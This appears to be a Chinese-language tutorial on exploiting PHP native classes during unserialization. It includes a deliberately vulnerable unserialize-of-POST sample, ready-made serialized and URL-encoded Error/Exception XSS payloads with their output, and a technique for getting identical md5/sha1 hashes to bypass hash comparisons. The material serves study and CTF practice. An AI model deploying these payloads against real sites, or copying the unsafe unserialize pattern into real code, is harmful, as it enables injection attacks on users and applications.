 [反序列化之PHP原生类的利用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html)

>获取php原生类中的魔术方法

```php
<?php
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, array(
            '__construct',
            '__destruct',
            '__call',
            '__callStatic',
            '__get',
            '__set',
            '__isset',
            '__unset',
            '__sleep',
            '__wakeup',
            '__toString',
            '__invoke',
            '__set_state'
        ))) {
            echo $class . '::' . $method . "<br>";
        }
    }
}
```

>攻击样例文件

```php
<?php
$tmp = unserialize($_POST['str']);
echo $tmp;
```

# 使用Error/Exception进行XSS

1. Error

[https://www.php.net/manual/zh/class.error.php](https://www.php.net/manual/zh/class.error.php)

Error是所有PHP内部错误类的基类(仅适用与PHP 7,PHP 8)

```php
 class Error implements Throwable {
/* 属性 */
protected string $message;
protected int $code;
protected string $file;
protected int $line;
/* 方法 */
public __construct(string $message = "", int $code = 0, ?Throwable $previous = null)
final public getMessage(): string
final public getPrevious(): ?Throwable
final public getCode(): int
final public getFile(): string
final public getLine(): int
final public getTrace(): array
final public getTraceAsString(): string
public __toString(): string
final private __clone(): void
}
```

>注意到`__construct`中有`$message`和`$code`,但`__toString`中仅使用了`$message`


[Error::__toString](https://www.php.net/manual/zh/error.tostring.php)

`public Error::__toString(): string`返回Error的string表达形式

```php
<?php
try {
    throw new Error("Some error message");
} catch(Error $e) {
    echo $e;
}
?>
```

假设Error中的字符串可以被设置为`<script>alert('misaka')</script>`,那么在反序列化后就会产生XSS攻击

```php
<?php
$a = new Error("<script>alert('misaka')</script>");
var_dump($a);
$b = serialize($a);
var_dump($b);
var_dump(urlencode($b));
```

```php
object(Error)[1]
  protected 'message' => string '<script>alert('misaka')</script>' (length=32)
  private 'string' => string '' (length=0)
  protected 'code' => int 0
  protected 'file' => string '/var/www/html/declared_class_unserialize/Error_xss.php' (length=54)
  protected 'line' => int 2
  private 'trace' => 
    array (size=0)
      empty
  private 'previous' => null
string 'O:5:"Error":7:{s:10:"�*�message";s:32:"<script>alert('misaka')</script>";s:13:"�Error�string";s:0:"";s:7:"�*�code";i:0;s:7:"�*�file";s:54:"/var/www/html/declared_class_unserialize/Error_xss.php";s:7:"�*�line";i:2;s:12:"�Error�trace";a:0:{}s:15:"�Error�previous";N;}' (length=265)
string 'O%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A32%3A%22%3Cscript%3Ealert%28%27misaka%27%29%3C%2Fscript%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A54%3A%22%2Fvar%2Fwww%2Fhtml%2Fdeclared_class_unserialize%2FError_xss.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D' (length=463)
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112031419433.png)

2. Exception

[https://www.php.net/manual/zh/class.exception.php](https://www.php.net/manual/zh/class.exception.php)

Exception是所有用户级异常的基类(PHP 5,PHP 7,PHP 8)

```php
 class Exception implements Throwable {
/* 属性 */
protected string $message;
protected int $code;
protected string $file;
protected int $line;
/* 方法 */
public __construct(string $message = "", int $code = 0, ?Throwable $previous = null)
final public getMessage(): string
final public getPrevious(): ?Throwable
final public getCode(): int
final public getFile(): string
final public getLine(): int
final public getTrace(): array
final public getTraceAsString(): string
public __toString(): string
final private __clone(): void
}
```

>注意到`__construct`中有`$message`和`$code`,但`__toString`中仅使用了`$message`

[Exception::__toString](https://www.php.net/manual/zh/exception.tostring.php)

`public Exception::__toString(): string`返回转换为字符串`string`类型的异常

```php
<?php
try {
    throw new Exception("Some error message");
} catch(Exception $e) {
    echo $e;
}
?>
```

假设Exception中的字符串可以被设置为`<script>alert('misaka')</script>`,那么在反序列化后就会产生XSS攻击

```php
<?php
$a = new Exception("<script>alert('misaka')</script>");
var_dump($a);
$b = serialize($a);
var_dump($b);
var_dump(urlencode($b));
```

```php
object(Exception)[1]
  protected 'message' => string '<script>alert('misaka')</script>' (length=32)
  private 'string' => string '' (length=0)
  protected 'code' => int 0
  protected 'file' => string '/var/www/html/declared_class_unserialize/Exception_xss.php' (length=58)
  protected 'line' => int 2
  private 'trace' => 
    array (size=0)
      empty
  private 'previous' => null
string 'O:9:"Exception":7:{s:10:"�*�message";s:32:"<script>alert('misaka')</script>";s:17:"�Exception�string";s:0:"";s:7:"�*�code";i:0;s:7:"�*�file";s:58:"/var/www/html/declared_class_unserialize/Exception_xss.php";s:7:"�*�line";i:2;s:16:"�Exception�trace";a:0:{}s:19:"�Exception�previous";N;}' (length=285)
string 'O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A32%3A%22%3Cscript%3Ealert%28%27misaka%27%29%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A58%3A%22%2Fvar%2Fwww%2Fhtml%2Fdeclared_class_unserialize%2FException_xss.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D' (length=483)
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202112031431095.png)

# 使用Error/Exception进行hash绕过

`Error`与`Exception`的`__construct`函数中均使用了`$message`和`$code`,但`__toString`中仅使用了`$message`,利用这一特性可以构造hash相同但值不同的两个变量

```php
<?php
$a = new Error($message = "misaka", $code = 0);$b = new Error($message = "misaka", $code = 1);
var_dump($a);
var_dump($b);
var_dump(md5($a));
var_dump(md5($b));
var_dump(sha1($a));
var_dump(sha1($b));
```

```php
object(Error)[1]
  protected 'message' => string 'misaka' (length=6)
  private 'string' => string '' (length=0)
  protected 'code' => int 0
  protected 'file' => string '/var/www/html/declared_class_unserialize/hash_cmp.php' (length=53)
  protected 'line' => int 2
  private 'trace' => 
    array (size=0)
      empty
  private 'previous' => null
object(Error)[2]
  protected 'message' => string 'misaka' (length=6)
  private 'string' => string '' (length=0)
  protected 'code' => int 1
  protected 'file' => string '/var/www/html/declared_class_unserialize/hash_cmp.php' (length=53)
  protected 'line' => int 2
  private 'trace' => 
    array (size=0)
      empty
  private 'previous' => null
string 'ef3dfed4019c082d5ee86e9e93e1e4b1' (length=32)
string 'ef3dfed4019c082d5ee86e9e93e1e4b1' (length=32)
string '131a711c4511f16665626f4f69dfe4b48339addf' (length=40)
string '131a711c4511f16665626f4f69dfe4b48339addf' (length=40)
```